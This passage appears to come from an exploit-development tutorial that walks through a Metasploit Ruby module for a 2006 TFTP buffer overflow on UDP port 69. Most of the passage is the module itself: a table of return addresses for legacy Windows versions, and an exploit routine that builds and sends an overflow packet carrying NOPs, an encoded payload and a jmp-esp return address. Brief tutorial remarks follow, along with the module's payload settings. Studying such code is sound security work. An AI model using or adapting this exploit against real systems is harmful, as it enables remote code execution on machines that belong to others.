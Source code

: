```ruby
      'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
      'Privileged'     => false,
      'DisclosureDate' => 'Nov 27 2006'))

    register_options(
      [
        Opt::RPORT(69),
        Opt::LHOST() # Required for stack offset
      ])
  end

  def exploit
    connect_udp

    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"

    udp_sock.put(sploit)

    disconnect_udp
  end
end

```

 We’ll concentrate on just a few sections for easyness’ sake. The **"Payload**", “**Targets**” and “**def exploit**” sections are what we’ll be playing around with the most at this point in time.

_Payload_

```ruby
 'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        }
```
